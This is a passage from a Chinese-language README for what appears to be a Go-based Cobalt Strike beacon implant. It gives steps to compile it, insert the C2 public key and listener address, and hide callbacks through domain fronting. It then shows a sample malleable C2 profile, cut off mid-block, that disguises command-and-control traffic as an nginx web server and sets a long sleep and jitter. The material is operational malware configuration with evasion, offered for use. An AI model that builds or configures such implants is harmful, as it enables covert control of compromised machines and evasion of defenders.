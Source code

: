
## 四、使用方法

有以下两种使用的方法，师傅们可以根据自己的喜好来灵活地使用：

### 第一种使用方法：直接编译成exe执行

#### 1、修改公钥
修改config.go中的公钥RsaPublicKey（此公钥是cs的公钥，不是https的公钥，提取方法可参考[geacon](https://github.com/darkr4y/geacon)介绍。

#### 2、修改C2地址
修改config.go中的C2地址（注意是listener地址，如果是http的listener的话需要将sslHTTP改为plainHTTP）。

域前置设置（可选）：把C2地址更改为域前置回连的域名和端口，然后把config.go里面req.Header的host更改为域前置域名。

#### 3、适配C2profile
config.go中设置了大部分C2profile流量端设置与部分主机端设置。

C2profile暂时不要设置post-ex中的obfuscation以及data_jitter。

如果快速使用的话可以直接使用示例的c2profile（其实示例c2profile流量侧已经配置了不少东西了）不需要修改config.go。如果自己配置可以根据config.go中具体的字段名称来对应，比如说Http_post_id_crypt=[]string{"mask", "netbiosu"}对应着c2profile中的http-post中的id里面的mask;和netbiosu;。我们下个阶段主要的任务是简化配置的过程。

**修改完C2profile后请不要忘记在config.go中对相应位置进行修改。下面给出示例C2profile，默认config.go适配该C2profile：**

```
# default sleep time is 60s
set sleeptime "3000";
set jitter "7";

https-certificate {
    set C "KZ";
    set CN "foren.zik";
    set O "NN Fern Sub";
    set OU "NN Fern";
    set ST "KZ";
    set validity "365";
}

# define indicators for an HTTP GET
http-get {

	set uri "/www/handle/doc";

	client {
		#header "Host" "aliyun.com";
		# base64 encode session metadata and store it in the Cookie header.
		metadata {
			base64url;
			prepend "SESSIONID=";
			header "Cookie";
		}
	}

	server {
		# server should send output with no changes
		#header "Content-Type" "application/octet-stream";
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
        	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";
```